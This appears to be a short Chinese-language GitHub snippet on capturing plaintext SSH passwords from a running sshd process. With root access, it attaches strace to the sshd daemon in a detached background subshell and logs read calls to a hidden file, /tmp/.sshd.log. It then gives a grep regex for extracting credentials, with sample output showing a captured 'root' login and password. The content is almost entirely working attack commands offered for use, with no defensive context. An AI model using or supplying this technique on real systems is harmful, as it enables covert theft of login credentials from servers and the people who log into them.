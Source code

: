 ### 获取sshd进程明文密码

1.root权限执行

```bash
# 使用括号执行程序，当前shell退出，执行的程序不会退出
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

```

2.查找用户名和密码的正则表达式为`read\(6, ".+\\0\\0\\0\\.+"`

```bash
# 查找用户名和密码
grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

# 结果形式如下
[pid  2401] 22:34:34 read(6, "\10\0\0\0\4root", 9) = 9
[pid  2401] 22:34:34 read(6, "\4\0\0\0\16ssh-connection\0\0\0\0\0\0\0\0", 27) = 27
[pid  2401] 22:34:34 read(6, "\f\0\0\0\4toor", 9) = 9

```

